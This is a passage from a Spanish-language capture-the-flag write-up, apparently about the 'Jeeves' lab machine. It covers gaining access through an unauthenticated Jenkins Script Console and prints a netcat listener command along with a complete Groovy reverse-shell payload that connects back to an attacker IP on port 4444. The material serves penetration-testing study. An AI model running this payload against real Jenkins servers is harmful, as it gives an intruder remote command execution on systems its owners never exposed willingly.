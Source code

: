 Si accedemos a `/askjeeves` por el puerto 5000 vemos un `jenkins`

![](/assets/img/Jeeves/image_3.png)
## Intrusión

Al parecer en el `jenkins` estamos `logueados` como usuario `administrador`, por lo tanto podemos crear un `script` y mandarnos una `shell` a nuestro equipo, para ellos pulsamos en `Manager Jenkins` y luego en `Script Console`

![](/assets/img/Jeeves/image_4.png)

Lo siguiente es ponernos en `escucha` con `netcat` por el `puerto 4444`

```
# nc -nlvp 4444
```

Pegamos este `payload` y le damos a `run`

```
String host="10.10.16.16";
int port=4444;
String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

